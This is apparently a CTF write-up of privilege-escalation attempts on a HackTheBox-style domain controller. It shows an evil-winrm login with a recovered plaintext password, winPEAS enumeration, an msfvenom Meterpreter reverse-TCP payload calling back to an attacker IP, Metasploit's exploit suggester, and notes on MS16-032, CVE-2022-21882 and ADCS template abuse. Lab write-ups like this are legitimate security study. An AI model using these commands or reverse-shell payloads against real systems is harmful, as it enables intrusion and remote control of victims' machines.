

We got our an initial foothold on the DC using svc_ldap.
```sh
evil-winrm \
	-i authority.authority.htb \
	-u svc_ldap@authority.htb \
	-p 'lDaP_1n_th3_cle4r!'
```


```
Get-ComputerInfo
```


Windows defender is not running! 
```
sc.exe query windefend
```


Let's use local_exploit_suggester  and  run winPEAS for now in the background. 

```
.\winPEASx64.exe >> enum.txt
```
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp \
	LHOST=10.10.14.93 \
	LPORT=53 \
	EXITFUNC=thread \
	-f exe \
	-o app.exe
```
We upload app.exe that we use to get a meterpreter session. Now we can use it to look for exploits. 


```
use post/multi/recon/local_exploit_suggester
```


We are not an administrator user so bypassing UAC will not help us.  

Also we can not even list local printers so we're not gonna be able to use a printer related exploit either. 




**MS16-032**

We've found precompiled binaries on the [SecWiki](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032)'s  repository  and more information about the race condition.   
However based on the info we found on [exploit-db](https://www.exploit-db.com/exploits/39719) it should not work on windows server 2019. 

**CVE-2022-21882**

I guess this one could potentially crash box.
Let's have a look at the output of  the winPEAS command then we come back to this if we get desperate hehe. 


---

**winPEAS**


I didn't find a whole lot of info using winpeas either.   
However I found  a LDAPs.pfx certificate lying around on c:/certs  


I don't know  what I can do with it. And I don't know how to crack it.  Cus I tried using
pfx2john + john and couldn't find the secret yet.


**Found a clue**


I have no idea about what I'm doing .. but I guess I have a new direction.

Whatever we do to privesc it might have something to do with the playbooks we've 
found on the the Development share. 

I heard something about _Certificate template injection?_   on THM but have no idea on how to exploit it. The only thing I know is that  it has something to do with ADCS.

Time to google!

https://tryhackme.com/r/room/adcertificatetemplates

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

